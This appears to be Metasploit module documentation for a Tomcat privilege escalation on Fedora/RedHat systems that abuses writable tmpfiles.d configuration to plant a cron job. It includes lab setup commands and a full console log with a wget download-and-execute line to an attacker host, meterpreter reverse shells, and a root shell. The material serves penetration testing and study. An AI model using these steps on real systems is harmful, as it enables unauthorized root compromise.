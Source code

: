 ## Vulnerable Application

This module exploits a vulnerability in RedHat based systems where
improper file permissions are applied to `/usr/lib/tmpfiles.d/tomcat.conf`
for Apache Tomcat versions before 7.0.54-8.  This may also work against

The configuration files in `tmpfiles.d` are used by `systemd-tmpfiles` to manage
temporary files including their creation.

With this weak permission, we're able to inject commands into `systemd-tmpfiles`
service to write a cron job to execute our payload.

`systemd-tmpfiles` is executed by default on boot on RedHat-based systems
through `systemd-tmpfiles-setup.service`. Depending on the system in use,
the execution of `systemd-tmpfiles` could also be triggered by other
services, cronjobs, startup scripts etc.

This module was tested against Tomcat 7.0.54-3 on Fedora 21.

### Install

This will install Tomcat 7 (7.0.54-3) on Fedora 21.

We also change the `tomcat` user's shell to `/bin/bash` to make setting up the priv-esc
easier.

```
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-lib-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-collections-3.2.1-20.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-daemon-1.0.15-8.fc21.x86_64.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-dbcp-1.4-16.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-logging-1.1.3-14.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/a/apache-commons-pool-1.6-9.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-el-2.2-api-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-jsp-2.2-api-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/t/tomcat-servlet-3.0-api-7.0.54-3.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/e/ecj-4.4.0-1.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/g/geronimo-jta-1.1.1-17.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/g/geronimo-jms-1.1.1-19.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/l/log4j12-1.2.17-7.fc21.noarch.rpm
wget https://archive.fedoraproject.org/pub/archive/fedora/linux/releases/21/Everything/x86_64/os/Packages/j/javamail-1.5.1-3.fc21.noarch.rpm
rpm -i *.rpm
sudo sed -i 's|/bin/nologin|/bin/bash|g' /etc/passwd
```

You can now `su tomcat` and get your starter shell.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell as the `tomcat` user
4. Do: `use exploit/linux/local/tomcat_rhel_based_temp_priv_esc`
5. Do: `set session #`
6. Do: `run`
7. You should get a root shell.

## Options

### WritableDir

A directory where we can write and execute files. Defaults to `/tmp`.

## Scenarios

### Tomcat 7 (7.0.54-3) on Fedora 21

Initial shell

```
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/script/web_delivery) > set target 7
target => 7
msf6 exploit(multi/script/web_delivery) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8080/fGd5wnh85
[*] Server started.
[*] Run the following command on the target machine:
wget -qO TbT9zhqH --no-check-certificate http://1.1.1.1:8080/fGd5wnh85; chmod +x TbT9zhqH; ./TbT9zhqH& disown

msf6 exploit(multi/script/web_delivery) > 
[*] 2.2.2.2      web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045348 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:41270) at 2023-01-19 15:22:23 -0500

msf6 exploit(multi/script/web_delivery) > jobs -K
Stopping all jobs...

[*] Server stopped.
msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: tomcat
meterpreter > sysinfo
Computer     : localhost.domain
OS           : Fedora 21 (Linux 3.17.4-301.fc21.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/tomcat_rhel_based_temp_priv_esc
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf6 exploit(linux/local/tomcat_rhel_based_temp_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/tomcat_rhel_based_temp_priv_esc) > set session 1
session => 1
msf6 exploit(linux/local/tomcat_rhel_based_temp_priv_esc) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/local/tomcat_rhel_based_temp_priv_esc) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable app version detected: 7.0.54.pre.3
[*] Creating backup of /usr/lib/tmpfiles.d/tomcat.conf
[+] Original /usr/lib/tmpfiles.d/tomcat.conf backed up to /root/.msf4/loot/20230119152336_default_2.2.2.2_usrlibtmpfile_530018.txt
[*] Uploading Payload to /tmp/.4ptbf6f4fW
[*] Writing '/tmp/.4ptbf6f4fW' (1068640 bytes) ...
[*] Writing permission elevation into /usr/lib/tmpfiles.d/tomcat.conf
[*] Creating cron job in /etc/cron.d/grPwZ
[+] Waiting 1800 on tmpfiles-setup.service to restart (/usr/bin/systemd-tmpfiles --create)
[-] /etc/cron.d/grPwZ not found, checking in 10 seconds
[*] Waiting on cron to kick the payload (~1 minute)
[+] Deleted /tmp/.4ptbf6f4fW
[+] Deleted /etc/cron.d/grPwZ
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:41271) at 2023-01-19 15:24:24 -0500

meterpreter > getuid
Server username: root
```
